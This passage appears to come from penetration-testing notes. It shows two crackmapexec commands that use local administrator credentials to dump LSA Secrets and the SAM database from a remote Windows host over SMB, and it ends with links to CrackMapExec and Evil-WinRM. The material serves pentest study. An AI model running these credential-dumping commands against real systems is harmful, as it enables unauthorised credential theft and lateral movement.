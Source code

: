 With access to credentials with **local admin privileges**, it is also possible for us to target LSA Secrets over the network:
```console
zero@pio$ crackmapexec smb <IP> --local-auth -u <USER> -p <PASSWORD> --lsa
```

Or SAM:
```console
zero@pio$ crackmapexec smb <IP> --local-auth -u <USER> -p <PASSWORD> --sam
```


---

# Resources 

| **Link**   | **Description**    |
|--------------- | --------------- |
| **General** |
| [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) | A swiss army knife for pentesting networks |
| **WinRM** |
| [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) | The ultimate WinRM shell for hacking/pentesting |

